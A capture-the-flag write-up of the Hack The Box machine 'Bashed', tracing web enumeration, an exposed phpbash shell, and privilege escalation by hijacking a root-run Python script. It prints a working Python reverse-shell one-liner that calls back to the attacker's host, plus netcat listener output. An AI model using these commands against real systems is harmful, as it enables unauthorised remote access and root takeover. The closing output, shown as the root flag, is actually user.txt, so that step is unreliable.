# HTB Bashed Writeup
- - -

## > Recon & Enumeration
- - -

### NMAP
After an nmap scan, I saw that port 80 was open and that it was running Apache httpd 2.4.18, so I decided to take a look in my browser to see if I could see a website.


The website seems to be a sort of blog/dev website. Something that I initially took note of was that the site talks about phpbash which seems to be a sort of web based command line interface that was apparently **tested on this server**. 
- - -

### Gobuster
I next ran gobuster to see what possibly interesting directories I had access to on the web server.
```
============================================================== 
Gobuster v3.1.0 
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart) 
=============================================================== 
[+] Url:            http://10.10.10.68/ 
[+] Method:         GET 
[+] Threads:        8 
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt 
[+] Status codes:   200,204,301,302,307,401,403 
[+] User Agent:     gobuster/3.1.0 
[+] Timeout:        10s 
=============================================================== 
2021/02/20 16:53:09 Starting gobuster in directory enumeration mode 
=============================================================== 
/css (Status: 301)            
/dev (Status: 301)            
/fonts (Status: 301)           
/images (Status: 301)          
/index.html (Status: 200)      
/js (Status: 301)              
/php (Status: 301)             
/server-status (Status: 403)   
/uploads (Status: 301)         
                               
=============================================================== 
2021/02/20 16:53:17 Finished 
===============================================================
```
- - -

## > Exploitation: Getting the User Flag
- - -
The main directories that caught my eye from the gobuster results were /dev and /uploads, and after checking /dev, it seemed that the contents of /dev were exposed.



As you can see, in the /dev directory, there is a file named phpbash.php. As I saw earlier on the website, phpbash seems to be a web cli of sorts, so I navigated to /dev/phpbash.php to see what would happen.



Nice! It is in fact a cli, and this opens up a lot of possible options.

I decided to see if I could find the user flag with my current permissions, so I went and listed the /home directory which had an arrexel and scriptmanager directory. I decided to list the arrexel directory first, and alas, the user.txt file, which I had the perms to print.



Nice, now all that's left is the root flag.


## > Privilege Escalation: Getting the Root Flag

First thing I tried was listing the /root dir, but of course I didn't have permissions to do that.

I then thought to check what other users are on the box to see if there is a user I can navigate to. After printing the contents of /etc/passwd, it seemed that there were 2 users that might be of interest: arrexel and scriptmanager.


I couldn't find anything in particular that I could do with my permissions as the www-data user, so I thought that maybe I had access to change perms to another user using sudo.



It seems that I get an error when trying to sudo as arrexel, but when trying to sudo as scriptmanager I don't. I do not, however, get a bash shell as the scriptmanager user, so it might be that phpbash is built so that I can only be the www-data user. If this is the case, it might be such that I can get a scriptmanager shell if I use a reverse shell rather than the web based phpbash one.

What I decided to do was host a simple http server using python on my machine and host a php-reverse-shell.php file, which I could then curl or wget through the web cli emulator.




Nice, now it;s time to listen with netcat on my local machine and navigate to the file I uploaded in the uploads directory.



Now I should be able to spawn a /bin/bash shell with scriptmanager.



After doing some more navigating and looking, I found that scriptmanager owns a directory in the / directory which seems to contain a test.py file (owned by scriptmanager) that writes to a test.txt file in the same directory (which is owned by root).







It also appears that the test.txt file is updated frequently, seemingly from some automated job run with root privileges. Time to take advantage of that. Online, I found this python reverse shell one-liner:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

which I then wrote into the test.py file.

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```


After writing that into the test.py file, I set up a netcat listener on port 1234 and waited...

```
❯ nc -lvp 1234
Connection from 10.10.10.68:47562
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

...and got a shell with root privileges.

I then printed the contents of the root.txt file in the /root directory which gave me the root flag!

```
# cd /home
# ls
arrexel
scriptmanager
# cd arrexel
# ls
user.txt
# cat user.txt
[redacted]
# 
```

